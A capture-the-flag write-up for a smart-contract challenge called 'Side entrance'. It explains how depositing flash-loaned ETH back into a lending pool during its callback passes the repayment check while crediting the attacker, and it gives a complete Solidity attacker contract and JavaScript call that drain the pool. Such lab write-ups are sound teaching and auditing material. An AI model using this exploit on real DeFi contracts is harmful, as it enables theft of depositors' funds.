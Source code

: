 # Challenge 4 — Side entrance

## Description

The `SideEntranceLenderPool` pool is extremely simple because it allows any user to deposit ETH and withdraw it at any time.

To receive a flash loan, the loanee contract must implement the `execute` function and make it payable in such a way as to satisfy the following call from the pool:
```solidity
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

At the end of the `flashLoan` function, there is a last test to pass to ensure that the amount on the contract has not decreased to make sure that the flash loan has been reimbursed.

## Vulnerability

In the `flashLoan` function, the accounting system using the `balances` mapping is completely ignored. It is therefore possible to call the `deposit` function of the `SideEntranceLenderPool` pool inside the `execute` callback function, which will be called in the middle of `flashLoan`.

In this way, the tokens borrowed by the borrower are immediately transferred back to the pool `SideEntranceLenderPool`. This allows:

- Reimburse the loan directly and therefore pass the last test of the `flashLoan` function which consists of checking that the amount on the contract has not decreased after the flash loan.
- To increment the `balances` mapping for the address of the attacker by the value of the balance pool.

Eventually, using the `withdraw` function, the attacker will be able to withdraw all tokens.

## How to exploit?

1. Create a `SideEntranceAttacker` contract with the `attack` function where the following workflow is implemented:

	- Execute the flash loan: `_pool.flashLoan(_poolBalance)`.
	- Withdraw the tokens from the pool: `_pool.withdraw()`.
	- Transfer the obtained tokens to the attacker EOA: `_attackerEOA.transfer(_poolBalance)`.

	```solidity
	contract SideEntranceAttacker {
	    using SafeMath for uint256;

	    ISideEntranceLenderPool _pool;
	    uint256 _poolBalance;
	    address payable _attackerEOA;

	    constructor() public {}

	    function attack(ISideEntranceLenderPool pool, address payable attackerEOA)
	        public
	    {
	        _pool = pool;
	        _attackerEOA = attackerEOA;
	        _poolBalance = address(_pool).balance;

	        // calls execute, then checks pool balance
	        _pool.flashLoan(_poolBalance);

	        _pool.withdraw();
	        _attackerEOA.transfer(_poolBalance);
	    }

	    // called by ISideEntranceLenderPool::flashLoan
	    function execute() external payable {
	        // deposit the tokens again, crediting the attacker contract
	        // and passing the flash loan balance check
	        _pool.deposit{value: _poolBalance}();
	    }

	    // needed for pool.withdraw() to work
	    receive() external payable {}
	}
	```

2. Call the `attack` function:
	```javascript
	await this.attacker.attack(this.pool.address, attacker);
	```

